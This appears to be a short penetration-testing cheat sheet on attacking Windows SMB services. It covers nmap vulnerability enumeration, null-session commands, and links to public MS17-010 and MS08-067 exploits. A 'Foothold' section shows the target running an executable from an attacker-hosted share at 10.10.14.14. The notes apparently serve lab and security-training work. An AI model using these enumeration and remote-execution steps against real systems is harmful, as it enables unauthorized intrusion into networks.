 # Intro
Following Ressources contain information about SMB protocol and its vulnerabilities:
* MS info: https://docs.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview
* Pentesting SMB: https://book.hacktricks.xyz/pentesting/pentesting-smb

# Reconnaisance

* nmap scripts for vulnerability enumeration: `ls /usr/share/nmap/scripts/ | grep smb | grep vuln`
* enumeration: `nmap --script smb-vuln* -p 139,445 -Pn ip` 
* OS enumeration: `nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1`

## **CrackMapExec**: used for basic SMB enumeration

* Null Session:
```
crackmapexec smb ip_addr -u '' -p ''
smbmap -u '' -H ip
smbmap -u invalid -H ip
smbclient -N -L //ip
```
#Exploitation

* Polpular exploits:

https://github.com/worawit/MS17-010

https://github.com/andyacer/ms08_067

# Foothold
Typically you get system shell but in case further foothold for lateral movement is needed you can proceede with opening SMB share on attacking maching and upload anything you want.

```
root@kali# locate whoami.exe
/usr/share/windows-binaries/whoami.exe
```
`root@kali# smbserver.py a /usr/share/windows-binaries/`

Get and run on windows
```
C:\WINDOWS\system32>\\10.10.14.14\a\whoami.exe
NT AUTHORITY\SYSTEM
```
